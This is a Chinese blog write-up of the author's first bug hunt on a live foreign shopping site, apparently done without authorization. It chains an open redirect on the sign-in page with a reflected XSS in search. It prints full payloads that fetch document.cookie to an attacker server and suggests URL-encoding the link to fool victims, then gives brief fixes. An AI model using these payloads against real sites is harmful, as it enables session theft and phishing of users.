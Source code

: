 
# （真实世界）我的第一次真实对国外某购物平台web漏洞挖掘

- 开放重定向 - 低危
- XSS - 低危

这两组合起来就完全不一样一点的，个人觉得比原本高一些

**危害：窃取用户敏感数据、用户cookie、钓鱼操作 等...**

## 前言

**这是我第一次，真实世界的web漏洞挖掘（开发重定向 + xss）**

**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**  
**虽然这两个漏洞都比较简单，但这是我第一次的真实漏洞挖掘，当然要记录一下，哪怕再简单**

**这次漏洞挖掘是无意的，这是我在做题的时候，题目需要我进行信息收集，我收集到相关的一个网站，于是在这个网站多看了几眼，发现了漏洞**

---

首先我打开这个网站的第一件事，也是最简单的：**查看源代码**

![在这里插入图片描述](https://img-blog.csdnimg.cn/2a17b468756548dca95cafe65ce2e7ae.png)

源代码：

![在这里插入图片描述](https://img-blog.csdnimg.cn/c2062d341aed4dc98c07d902fa12bf92.png)

在源代码中发现这一个url

---

## url参数重定向 - OpenRedirect

分析：

	/sign-in?redirect=

这里我测试过，因为这里是用户登录页面

- 如果用户未登录，则在用户登录成功后，重定向到redirect参数指定的url
- 如果用户已登录，则直接跳转到redirect参数指定的url

当我尝试修改redirect参数，改成百度：

![在这里插入图片描述](https://img-blog.csdnimg.cn/1f89210d99db4545814f1c851143d2cf.png)

在已登录状态下，确实重定向到百度去了

---

## open redirect的好兄弟

我们都知道，单单一个开放重定向通常情况下危害不大，甚至可以忽略不计，没啥用

但是可以搭配其他漏洞来做一套组合拳，这个漏洞就是xss.

通过开放重定向漏洞将受害者重定向到被攻击者控制的具有xss漏洞的页面上，执行恶意js代码

通过这套开放重定向 + xss

攻击者很容易获得一些信息，如：

- 用户的cookie
- 攻击者期望的操作，例如：下单、修改账户等相关操作
- 社会工程 - 攻击者利用xss构建恶意代码，攻击者诱导受害者填写隐私信息以获取攻击者想要获取的受害者的信息

等等等等

---

**所以现在我们的当务之急应该寻找xss漏洞，打一套组合拳**

## XSS - 反射型

果不其然，经过tryhackme的训练，我一下子就找到了

就在网站主页的**搜索功能**！

一开始尝试sql注入，但是无果

但是第二次尝试寻找漏洞的时候，我发现输入的内容会拼接到回显页面中，于是开始尝试xss


![在这里插入图片描述](https://img-blog.csdnimg.cn/e93219f81ba84342805ec3f434356d0a.png)

它直接镶嵌到span标签中

我直接绕出去了，毫无难度，成功找到反射xss漏洞

---

## XSS + OpenRedirect - 组合拳

**兔年万事如意，心想事成**

现在我们可以尝试简单的利用xss+开放重定向获取用户的cookie

构造XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

**注意：这里的fetch函数中的url不能携带有http://或https://，否则会失败，所以使用//**

**最好不要有空格，因为此payload稍后将会放到url参数中**

****

我们可以直接验证此payload是否有效:

![在这里插入图片描述](https://img-blog.csdnimg.cn/d0e27c9dd0364534a6fa86a1b05174c6.png)

可以看到它携带着cookie去请求攻击者托管的http服务器去了！

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)


现在让我们将xss和开放重定向组合起来：

实现**让用户点击我们的精心设计过的登录url，即可窃取该用户的cookie等**

### **如果通过钓鱼等方式令网站管理员点击此恶意链接会发生什么事？**

我很难想象，毕竟这个平台有些地方甚至没有csrf防护，也别忘了我们还有xss

### 回归正题

首先，随便注册个账户并登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/cc48a844fbd3461fa8d30d5f725f0576.png)

XSS Payload:

	https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

OpenRedirect Payload:

	https://www.nonno.co.uk/sign-in?redirect=https://www.nonono.co.uk/search?nonono='<script>fetch('//<攻击者http服务器>/?cookie='+btoa(document.cookie));</script>

解析：当已登录用户点击此OpenRedirect payload的url，将重定向到xss漏洞处并执行我们指定的恶意js代码，这里的js代码使用fetch发送请求到我们攻击者的http服务器并附带cookie

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed9395ed2e31404fa59b6b51898535d5.png)

**至此漏洞利用完成，攻击者将获取受害者的cookie，甚至其他任何操作！**

**只要适当的将payload进行urlencode，受害者可能根本无法判断！**

**更进一步的利用：OpenRedirect + XSS，再加csrf等等等等，危害还能在提升**

---

## 漏洞修补建议

### OpenRedirect

- 不要使用url参数(GET or POST)来进行重定向，即便使用，也要做好防护，避免idor
- 完善各个功能的csrf防护

### XSS

- 做好用户输入检测，检测到黑名单字符直接禁止访问
- 过滤特殊字符

---

## 结束

事实上我这里只找了两个漏洞，很难猜测其他地方是否还存在其他漏洞。

希望平台管理方认真做好安全防护

这也是我的第一次真实的web漏洞挖掘，我非常的激动，这是一次无意的漏洞挖掘，真的是无意的

---

不说了，跑路了


